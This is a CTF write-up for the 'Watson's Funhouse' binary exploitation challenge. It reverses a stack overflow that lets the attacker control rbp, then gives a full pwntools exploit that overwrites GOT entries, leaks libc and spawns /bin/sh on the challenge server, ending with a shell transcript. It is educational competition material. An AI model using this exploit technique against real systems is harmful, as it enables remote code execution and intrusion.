







# Watson's Funhouse [1000/1/FB]


<p align=center><i>Pictured: Time-traveling Detective builds Funhouse</i></p>

Working from home is a blast when you have the company of a  time-traveling, ground-pounding detective. Rumor has it that her latest  project, "Watson's Fun House" has just been completed. Care to take a  ride?

```
nc chals.ctf.sg 20301
```

 Author: niktay

**Files**: [watsons_funhouse](https://api.ctf.sg/file?id=ckm3ltu3i0hio08562uymdv7l&name=watsons_funhouse)



## Reversing

The binary contains symbols for most variables and functions; reading it in IDA isn't difficult. To summarise: 

```c
void funhouse(char *ptr) {
  int choice; // [rsp+18h] [rbp-68h] BYREF
  void *buf[11]; // [rsp+20h] [rbp-60h]
  unsigned __int64 cookie; // [rsp+78h] [rbp-8h]
  cookie = __readfsqword(0x28u);

  puts(...);
  printf("Choice => ");
  scanf("%d", &choice);
  if ( choice == 1 )
    for (int i = 0; i <= 5; ++i) {
      if ( buf[2 * i + 2] ) // 2*i+2 is maximally 12: this is an overflow!
        buf[2 * i + 2] = ptr;
    }
}
int main() {
  /* make sure you remember all of these offsets - they're important! */
  void *ptr; // [rsp+8h] [rbp-118h] BYREF
  char buf[264]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 cookie; // [rsp+118h] [rbp-8h]
  cookie = __readfsqword(0x28u);
    
  setup_IO();
  puts(...); // show very large intro banner
  printf("Ticket Number => ");
  scanf("%ld", &ptr);
  memfrob(ptr, 8);
  funhouse(ptr);
  puts(...); // show another smaller banner
  printf("Enter Feedback => ");
  scanf("%s", buf);
  if (cookie != __readfsqword(0x28)) __stack_chk_fail();
}
```

The main loop has 3 steps:

1. take in an input pointer `ptr`. The pointer provided needs to point to a writeable location, or memfrob() will crash.
2. Take in an input option of 1 or 2. If 1 is selected, `ptr` will be copied into `rbp` upon returning from `funhouse()`.
3. Write an infinite number of non-whitespace bytes to `buf == [rbp-0x110]` via scanf().

Before (2), the stack will vaguely look like this:



note that `42 == ord('*')`; `0x602048` is the address I used as input for (1) here.

After `funhouse()`, the stack will look like this:



The `ptr` provided fills up a number of positions on the stack, and one of those positions causes the base pointer to be modified:: 

Since main() uses `rbp` for it's stack:



And because RELRO is partial:



The solution here is to use `[rbp+buf]` to overwrite `__stack_chk_fail` for code execution. Editing `rbp` via (2) allows for an arbitrary write, and writing to `got.symbols['__stack_chk_fail']` in particular will grant RIP control after the stack check at `main()` fails.

## Exploitation

tldr:

1. replace `__stack_chk_fail` with `main`.
2. replace `memfrob` with `_puts` (the function that calls `got.symbols['puts']`); leak libc with `memfrob(ptr)`
   `context.libc_database.libc_find()` is a godsend here so long as your libc-database isn't filled with duplicate garbage like mine
3. put `/bin/sh` somewhere; replace `memfrob` with `libc.symbols['system']`.

```python
from pwnscripts import *
context.binary = 'watsons_funhouse'
context.libc_database = 'libc-database'
buf = 0x110
scratch = 0x602500
r = remote('chals.ctf.sg', 20301)
def cycle(rbp: int, choice: bool, feedback: bytes):
    r.sendlineafter('Ticket Number => ', str(rbp))
    rtr = r.recvline()
    r.sendlineafter('Choice => ', str(choice))
    r.sendlineafter('Enter Feedback => ', feedback)
    return rtr

cycle(context.binary.got['__stack_chk_fail']+buf, 1, pack(context.binary.symbols['main'])[:7])

cycle(context.binary.got['memfrob']+buf, 1, pack(context.binary.symbols['puts'])[:7])
GOT_FUNCS = ['puts', 'scanf', 'printf']
leaks = {f:unpack_bytes(cycle(context.binary.got[f], 2, b'a'*0x110), 6) for f in GOT_FUNCS}
context.libc = 'libc6_2.27-3ubuntu1.4_amd64' #context.libc = context.libc_database.libc_find(leaks)
context.libc.symbols['puts'] = leaks['puts']

cycle(scratch+buf, 1, b'/bin/sh\0')
cycle(context.binary.got['memfrob']+buf, 1, pack(context.libc.symbols['system'])[:7])
r.sendlineafter('Ticket Number => ', str(scratch))
r.interactive()
```

If you know exactly what to do from the get-go, there's honestly not too much difficulty to the challenge. This solution _wasn't_ obvious to me from the get-go, and I think it speaks to the (good) quality of the challenge.

### Other things I tried

With a buffer overflow and the GOT available without PIE, instinct says to dig in with a ROP chain if at all possible. Problems arrive when you start trying to implement that rop-chain:



`chr(0xa) == '\n'`. The buffer overflow occurs via `scanf("%s", ...)`, and there's no feasible way to upgrade to a more universal i/o method without access to libc first. Without any way to edit `rdi`, a ROP chain would be completely useless.

So, I had an extra idea: what if you encoded whitespace-containing gadgets with `memfrob`, and then decrypted them one-by-one in `main()`?

```python
R = ROP(context.binary)
R.puts(context.binary.got['memfrob'])
R.puts(context.binary.got['puts'])
R.main()
payload = group(8,R.chain())
bads = [i for i,b in enumerate(payload) if any(c in b for c in b'\n ')]
for i in bads: payload[i] = xor(payload[i], p8(42)*8)
print(payload)
cycle(scratch+buf, 1, b''.join(payload))
```

This was a great idea on paper. It would've even worked for some whitespace characters like `'\t'`. Unfortunately, the newline is a rather unlucky character:

```python
>>> chr(ord('\n')^42)
' '
```

`scanf()` bans both `' '` _and_ `'\n'`. Neither can be encoded with `memfrob`, and the ROP chain is straight up impossible.

---

I also considered doing `ret2dlresolve` (infinite overflow, PIE disabled, unknown libc). It was to my contrition that I noticed this pwntools warning:

```python
[!] Ret2dlresolve is likely impossible in this ELF (too big gap between text and writable sections).
    If you get a segmentation fault with fault_addr = 0x42b290, try a different technique.
```

That ended that hope.

## Ending

```sh
[*] Switching to interactive mode
$ ls /home/watsons*
Makefile
flag.txt
main.c
watsons_funhouse
$ cat /home/watsons_funhouse/flag.txt
CTFSG{gur4_d035nt_kn0w_1_ex15t_h1c}
$
```